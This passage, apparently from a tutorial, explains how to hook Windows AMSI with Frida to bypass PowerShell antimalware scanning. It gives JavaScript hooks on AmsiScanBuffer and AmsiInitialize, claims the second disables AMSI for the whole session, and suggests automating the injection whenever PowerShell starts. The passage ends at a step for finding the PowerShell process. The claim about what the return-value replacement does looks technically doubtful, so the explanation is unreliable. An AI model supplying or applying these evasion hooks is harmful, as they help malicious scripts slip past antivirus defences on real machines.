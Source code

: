 ### 6. **Modify the Script for Deeper Analysis**

If you're more interested in **analyzing AMSI** than bypassing it, you can modify the Frida script to log more detailed information about the buffer being scanned or even dump the contents of the buffer for further analysis.

For example, to print the contents of the buffer:

```javascript
Interceptor.attach(Module.findExportByName("amsi.dll", "AmsiScanBuffer"), {
    onEnter: function (args) {
        var buffer = Memory.readUtf8String(args[1], args[2].toInt32());
        console.log("[+] Buffer content being scanned: " + buffer);
    },
    onLeave: function (retval) {
        console.log("Original return value: " + retval);
    }
});
```

This logs the actual content being scanned by AMSI, which could be useful if you’re trying to see what specific content AMSI is flagging.

### 7. **Bypass AMSI Initialization in PowerShell (Optional)**

You can also hook into **AMSI initialization functions** (like `AmsiInitialize` or `AmsiOpenSession`) to prevent AMSI from initializing in the first place. This would prevent any AMSI-related scans from occurring.

```javascript
Interceptor.attach(Module.findExportByName("amsi.dll", "AmsiInitialize"), {
    onLeave: function (retval) {
        console.log("[+] AmsiInitialize called, disabling AMSI...");
        retval.replace(0);  // Disable AMSI initialization
    }
});
```

This script would prevent **AMSI** from initializing correctly by modifying the return value of `AmsiInitialize`, effectively disabling AMSI for the entire session.

### 8. **Automating the Injection with Frida**

If you want to automate the Frida injection and bypass process, you can write a small Python or Bash script that automatically attaches Frida to the PowerShell process and injects the AMSI bypass script. This way, the process is fully automated whenever you start PowerShell.

### Summary of Commands:

1. **Find the PowerShell Process ID**:
   ```bash
   tasklist | findstr powershell
   ```
